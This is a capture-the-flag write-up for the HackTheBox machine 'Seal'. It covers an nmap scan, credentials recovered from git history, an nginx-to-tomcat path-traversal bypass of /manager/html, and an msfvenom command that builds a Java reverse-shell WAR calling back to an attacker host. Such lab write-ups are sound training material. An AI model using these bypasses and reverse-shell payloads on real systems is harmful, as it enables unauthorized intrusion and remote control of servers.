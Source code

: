 ```yaml
---
title: Seal HackTheBox
published: true
---
```


## Recon

```bash
nmap -sC -sV -Ao nmap 10.10.10.250
```

```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-02 08:33 CEST
Nmap scan report for 10.10.10.250
Host is up (0.023s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 4b:89:47:39:67:3d:07:31:5e:3f:4c:27:41:1f:f9:67 (RSA)
|   256 04:a7:4f:39:95:65:c5:b0:8d:d5:49:2e:d8:44:00:36 (ECDSA)
|_  256 b4:5e:83:93:c5:42:49:de:71:25:92:71:23:b1:85:54 (ED25519)
443/tcp  open  ssl/http   nginx 1.18.0 (Ubuntu)
|_http-title: Seal Market
| ssl-cert: Subject: commonName=seal.htb/organizationName=Seal Pvt Ltd/stateOrProvinceName=London/countryName=UK
| Not valid before: 2021-05-05T10:24:03
|_Not valid after:  2022-05-05T10:24:03
| tls-nextprotoneg:
|_  http/1.1
|_http-server-header: nginx/1.18.0 (Ubuntu)
| tls-alpn:
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
8080/tcp open  http-proxy
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.1 401 Unauthorized
|     Date: Fri, 02 Sep 2022 06:32:57 GMT
|     Set-Cookie: JSESSIONID=node01j0kvq70qbpqj11e6pkvdnh6s32.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 0
|   GetRequest:
|     HTTP/1.1 401 Unauthorized
|     Date: Fri, 02 Sep 2022 06:32:56 GMT
|     Set-Cookie: JSESSIONID=node05fxtqecve3hh15vos2gljmegx0.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 0
|   HTTPOptions:
|     HTTP/1.1 200 OK
|     Date: Fri, 02 Sep 2022 06:32:57 GMT
|     Set-Cookie: JSESSIONID=node0sh26ekxv2537kx25ph8zd1m1.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Allow: GET,HEAD,POST,OPTIONS
|     Content-Length: 0
|   RPCCheck:
|     HTTP/1.1 400 Illegal character OTEXT=0x80
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 71
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character OTEXT=0x80</pre>
|   RTSPRequest:
|     HTTP/1.1 505 Unknown Version
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 58
|     Connection: close
|     <h1>Bad Message 505</h1><pre>reason: Unknown Version</pre>
|   Socks4:
|     HTTP/1.1 400 Illegal character CNTL=0x4
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 69
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x4</pre>
|   Socks5:
|     HTTP/1.1 400 Illegal character CNTL=0x5
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 69
|     Connection: close
|_    <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x5</pre>
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.92%I=7%D=9/2%Time=6311A3A4%P=x86_64-pc-linux-gnu%r(Get
SF:Request,F4,"HTTP/1\.1\x20401\x20Unauthorized\r\nDate:\x20Fri,\x2002\x20
SF:Sep\x202022\x2006:32:56\x20GMT\r\nSet-Cookie:\x20JSESSIONID=node05fxtqe
SF:cve3hh15vos2gljmegx0\.node0;\x20Path=/;\x20HttpOnly\r\nExpires:\x20Thu,
SF:\x2001\x20Jan\x201970\x2000:00:00\x20GMT\r\nContent-Type:\x20text/html;
SF:charset=utf-8\r\nContent-Length:\x200\r\n\r\n")%r(HTTPOptions,106,"HTTP
SF:/1\.1\x20200\x20OK\r\nDate:\x20Fri,\x2002\x20Sep\x202022\x2006:32:57\x2
SF:0GMT\r\nSet-Cookie:\x20JSESSIONID=node0sh26ekxv2537kx25ph8zd1m1\.node0;
SF:\x20Path=/;\x20HttpOnly\r\nExpires:\x20Thu,\x2001\x20Jan\x201970\x2000:
SF:00:00\x20GMT\r\nContent-Type:\x20text/html;charset=utf-8\r\nAllow:\x20G
SF:ET,HEAD,POST,OPTIONS\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,AD
SF:,"HTTP/1\.1\x20505\x20Unknown\x20Version\r\nContent-Type:\x20text/html;
SF:charset=iso-8859-1\r\nContent-Length:\x2058\r\nConnection:\x20close\r\n
SF:\r\n<h1>Bad\x20Message\x20505</h1><pre>reason:\x20Unknown\x20Version</p
SF:re>")%r(FourOhFourRequest,F5,"HTTP/1\.1\x20401\x20Unauthorized\r\nDate:
SF:\x20Fri,\x2002\x20Sep\x202022\x2006:32:57\x20GMT\r\nSet-Cookie:\x20JSES
SF:SIONID=node01j0kvq70qbpqj11e6pkvdnh6s32\.node0;\x20Path=/;\x20HttpOnly\
SF:r\nExpires:\x20Thu,\x2001\x20Jan\x201970\x2000:00:00\x20GMT\r\nContent-
SF:Type:\x20text/html;charset=utf-8\r\nContent-Length:\x200\r\n\r\n")%r(So
SF:cks5,C3,"HTTP/1\.1\x20400\x20Illegal\x20character\x20CNTL=0x5\r\nConten
SF:t-Type:\x20text/html;charset=iso-8859-1\r\nContent-Length:\x2069\r\nCon
SF:nection:\x20close\r\n\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x20
SF:Illegal\x20character\x20CNTL=0x5</pre>")%r(Socks4,C3,"HTTP/1\.1\x20400\
SF:x20Illegal\x20character\x20CNTL=0x4\r\nContent-Type:\x20text/html;chars
SF:et=iso-8859-1\r\nContent-Length:\x2069\r\nConnection:\x20close\r\n\r\n<
SF:h1>Bad\x20Message\x20400</h1><pre>reason:\x20Illegal\x20character\x20CN
SF:TL=0x4</pre>")%r(RPCCheck,C7,"HTTP/1\.1\x20400\x20Illegal\x20character\
SF:x20OTEXT=0x80\r\nContent-Type:\x20text/html;charset=iso-8859-1\r\nConte
SF:nt-Length:\x2071\r\nConnection:\x20close\r\n\r\n<h1>Bad\x20Message\x204
SF:00</h1><pre>reason:\x20Illegal\x20character\x20OTEXT=0x80</pre>");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.32 seconds
```

## Interpretation

There are three open ports: 22, 443 and 8080.

## Port 443

The website on port 433 seems to be not vulnerable. 
There are two input possibilities but basic xss, sqli testing reveals nothing interesting. 

## Port 8080

The application on port 8080 is GitBucket. Basic or default credentials are not wirking to login so creating a new account seems to be the way to go. We have access to two repositories. In the tomcat folder in the `tomcat-users.xml` there is no user entry but the git history reveals a deleted tomcat user with the credentials: `tomcat:42MrHBf*z8{Z%`. This password can be reused for the GitBucket service as user luis but this had no further impact. More looking around reveals that there is a nginx reverse proxy running which blocks requests to for example `/manager/html`

## Path traversal

This combination of tomcat and nginx is most often vulnerable to a path traversal attack as explained [here](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf). `10.10.10.250/manager;name=dennis/html/` did the trick because `/manager;name=dennis/html` doesn't match the pattern `/manager/html` checked by nginx so it forwards the request to the tomcat. The application server normalizes the reqest and throws the `;name=dennis`-part away so tomcat sees only `/manager/html`. For the managersite the previous found credentials are working so we have access to the admin panel. 

## Exploit

Creating an exploit which we can upload to the tomcat. 
```bash
msfvenom -p java/shell_reverse_tcp lhost=10.10.14.4 lport=4242 -f war -o rev.war7
```

Upload the war-File to the adminpanel and deploy it to the tomcat. 

### Notes to deploying to tomcat

1. Logically the request have to be intercepted with burpsuite because the deploy-Button has links to `/manager/html/upload...` which is blocked by nginx. So the path traversal should again be applied.
2. I had to add the host name to my `/etc/hosts`-file but I don't know why.




    
